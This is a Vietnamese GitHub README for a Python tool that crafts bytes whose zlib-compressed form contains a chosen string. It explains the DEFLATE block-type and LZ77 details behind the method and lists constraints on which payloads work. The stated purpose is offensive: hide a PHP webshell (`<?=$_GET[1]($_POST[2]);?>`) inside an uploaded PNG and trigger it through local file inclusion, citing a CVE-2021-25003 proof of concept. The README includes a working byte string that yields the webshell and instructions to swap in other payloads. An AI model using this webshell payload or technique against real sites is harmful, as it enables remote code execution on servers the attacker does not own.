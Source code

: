 # control_zlib_compression

## Main
Chức năng của code là tạo ra một đoạn byte mà khi `zlib.compress()` sẽ tạo được một substring chứa `payload` mong muốn. 

`zlib.compress()` được dùng trong file png do đó ta có context sử dụng như sau:
- Upload file ảnh png có payload mong muốn ví dụ như `<?=$_GET[1]($_POST[2]);?>`.
- Local File Include file ảnh đó.

Ví dụ với context trên:

```python
import zlib

zlib.compress(b'\x03\xa3\x9fgTo,$\x15+!g\x12To\x11.)\x15+\x19g"ko_P') 
# Kết quả: b'x\x9cc^<?=$_GET[1]($_POST[2]);?>\x00\x00hi\x070'. Có chứa '<?=$_GET[1]($_POST[2]);?>'
```

Hoặc là với context PoC của [CVE-2021-25003](https://wpscan.com/vulnerability/5c21ad35-b2fb-4a51-858f-8ffff685de4a), có phần tìm một chuỗi hex khi compress sẽ chứa payload. Trong link thì tác giả không chỉ cách tìm ra chuỗi đó nên mình khá chật vật tìm hiểu để ~~chắp vá~~ viết ra code này.
![Oops](https://user-images.githubusercontent.com/91038460/209658753-5f66c4c3-f8af-4540-9929-31d55a990e85.png)

## Ý tưởng:
Vì zlib compression/decompression là quá trình không làm mất dữ liệu, nên nếu muốn tìm một đoạn byte mà compress ra đoạn code mong muốn thì mình sẽ decompress đoạn code đó để tìm đoạn byte. Do đó mình đi tìm hiểu về zlib compressed data format rồi cả cách implement quá trình decompression để theo ý muốn.

## Cách dùng:
Vào sửa biến `payload` rồi chạy code thôi 😉.

Nếu chương trình bị lỗi hoặc in ra `Constraint may be violated` hoặc `Take a rest 🤕` thì có thể là code đã không cover được hết trường hợp 😭.

Ngược lại, dòng đầu tiên chính là chuỗi byte mà ta cần 😁

```Ruby
b'\x03\xa3\x9fgTo,$\x15+!g\x12To\x11.)\x15+\x19g"ko_P'

Double check
Yeah 🙂
```

## Lưu ý:
Không phải tất cả payload đều hoạt động được, ví dụ ``<?=`$_GET[1]`;?>`` sẽ gây ra lỗi.

Điều kiện để code gặp ít lỗi nhất (nhưng vẫn sẽ có lỗi 🥲), nếu không thì sẽ phải tự sửa lại tùy payload 😿
1. Không dùng quá nhiều loại ký tự khác nhau trong payload.
2. Dùng `payload` càng ngắn càng tốt.
3. Ký tự cuối cùng của `payload` nên để là `>`.
4. Mỗi substring độ dài 3 sau khi `decompress()` không xuất hiện quá 1 lần (Để đảm bảo BTYPE luôn bằng 1).
5. Nên để `terminate_symbol` như vậy.

## ~~Chép code~~ Tham khảo:
- https://calmarius.net/index.php?lang=en&page=programming%2Fzlib_deflate_quick_reference: Đây là nơi mình đọc về format của compressed data.
- https://pyokagan.name/blog/2019-10-18-zlibinflate/. Đây là link mình đọc về thuật toán sử dụng trong `zlib.compress()` và cả chép code nữa. 🦫

## Ghi chú cho sau này:
- Cái cây cần dùng cho debug khi `BTYPE=1` :)
![Oops](https://user-images.githubusercontent.com/91038460/209665780-a1483101-f2f8-4e34-a07e-ac95989c238a.png)
- Các phần được implement nhưng lại không dùng mà được để lại đề phòng sau này sẽ được comment là `# [skip me]`
- Điều kiện 1 được dùng để đảm bảo BTYPE không thể bằng 0.
- Điều kiện 2 được dùng để đảm bảo BTYPE không thể bằng 2.
- Điều kiện 3 được dùng để đảm bảo thuật toán LZ77 được dùng khi compress() không có tác dụng, do đó lúc decompress() cũng không có tác dụng.
- 27/12/2022: chỉ có 3 loại BTYPE 0, 1 và 2. Mình cố gắng để BTYPE = 1, 
      + là một giá trị cho phép hiệu quả về cả độ phức tạp và độ dài của payload và output.
      + mình cố gắng để BTYPE = 1 nhưng đoạn implement decompress() thì có cả code xử lý khi BTYPE = 0 hay 2 dùng để đề phòng cho sau này.
      + tương tự phần xử lý LZ77 ở trên cũng không có tác dụng nhưng sẽ được mình để lại.
